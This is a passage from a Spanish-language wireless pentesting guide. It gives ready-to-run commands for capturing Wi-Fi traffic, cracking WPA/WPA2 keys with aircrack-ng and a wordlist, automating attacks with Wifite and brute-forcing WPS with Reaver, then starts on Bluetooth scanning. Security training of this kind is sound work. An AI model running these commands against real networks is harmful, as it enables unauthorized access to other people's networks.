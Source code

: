    ```bash
   sudo airmon-ng start wlan0
   ```

2. Escanear redes disponibles:

   ```bash
   sudo airodump-ng wlan0mon
   ```

3. Capturar tráfico de una red específica:

   ```bash
   sudo airodump-ng -c 6 --bssid XX:XX:XX:XX:XX:XX -w captura wlan0mon
   ```

4. Romper una clave 

   WPA/WPA2

    capturada:

   ```bash
   sudo aircrack-ng -w /usr/share/wordlists/rockyou.txt -b XX:XX:XX:XX:XX:XX captura.cap
   ```

### **2.1.2 Wifite - Ataques Automáticos a Redes Wi-Fi**

Wifite automatiza ataques a redes Wi-Fi protegidas con WEP, WPA y WPS.

```bash
sudo wifite
```

🔹 **Explicación:** Escanea redes cercanas y ataca automáticamente aquellas vulnerables.

### **2.1.3 Reaver - Ataques WPS (Wi-Fi Protected Setup)**

Si un router tiene WPS habilitado, puede ser vulnerable a ataques de fuerza bruta.

```bash
sudo reaver -i wlan0mon -b XX:XX:XX:XX:XX:XX -vv
```

🔹 **Explicación:** Intenta recuperar la clave Wi-Fi explotando WPS.

## **2.2 Ataques a Dispositivos Bluetooth**

Estas herramientas permiten auditar y explotar vulnerabilidades en dispositivos Bluetooth.

### **2.2.1 Bluetoothctl - Administración de Dispositivos Bluetooth**

Para escanear dispositivos Bluetooth cercanos:

```bash
bluetoothctl scan on
```

### **2.2.2 Bluelog - Escaneo y Registro de Dispositivos Bluetooth**
